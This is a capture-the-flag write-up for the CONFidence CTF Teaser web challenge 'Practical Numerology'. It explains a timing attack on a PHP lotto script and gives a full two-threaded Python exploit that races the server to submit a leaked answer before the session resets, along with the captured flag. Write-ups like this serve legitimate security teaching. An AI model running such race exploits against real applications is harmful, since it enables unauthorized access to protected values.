 # CONFidence CTF Teaser Practical Numerology

**Category:** Web
**Points:** 300
**Solves:** 56
**Description:**

> Here's a [lotto script](index.php), running on my [old and slow computer](134.213.136.172). Can you pwn it?  

## Write-up

### Explanation

This challenge was a timing attack against the server. The server performs the following steps when we give him a wrong guess:

 1. Outputs the expected answer.
 2. Outputs the guess we provided.
 3. Updates the session with a new answer.
 
If we manage the make the step 2 take relatively long amount of time, we can have a window where we know the expected answer and it hasn't been updated yet. To make the step 2 take a long amount of time, we can simply send a guess with a really long value. In the example below, I used a value with a length of 1000000. 

### Script

	import httplib
	import thread

	# Shared value that the first thread will write the expected value
	aaa = ""

	# Thread 1 does the request that take a long amount of time and sends the
	# results to Thread 2 with the shared value.
	def thread1(abc):
		global aaa

		try:
			headers = {
				"Content-Type": "application/x-www-form-urlencoded",
				"Cookie": "PHPSESSID=1337cookie"
			}
			conn1 = httplib.HTTPConnection("134.213.136.172")
			conn1.request("POST", "/", "guess=" + ("a"*1000000), headers)
			
			# Reading only the expected value will not wait for everything to be received.
			g = conn1.getresponse().read(92)
			
			# Sending it to Thread 2
			aaa = g[8:8+80]
		except Exception:
			import traceback
			print traceback.format_ex
		
	# Thread 2 receives the value from Thread 1 and sends it before the flag 
	# is updated.
	def thread2(abc):
		global aaa

		try:
			conn2 = httplib.HTTPConnection("134.213.136.172")
			headers = {
				"Content-Type": "application/x-www-form-urlencoded",
				"Cookie": "PHPSESSID=1337cookie"
			}
			
			while aaa == "":
				pass
				
			conn2.request("POST", "/", "guess=" + aaa, headers)
			a = conn2.getresponse().read()
			
			# This will output the flag if we sent it just in time.
			print(a)
		except Exception:
			import traceback
			print traceback.format_ex
		
		
	thread.start_new_thread(thread1, ("test",))
	thread.start_new_thread(thread2, ("test",))

	while 1:
	   pass
	   
### Flag

DrgnS{JustThinkOutOfTheBoxSometimes...}

## Other write-ups and resources

* <https://github.com/smokeleeteveryday/CTF_WRITEUPS/tree/master/2015/CONFIDENCE_TEASER/web/practicalnumerology>
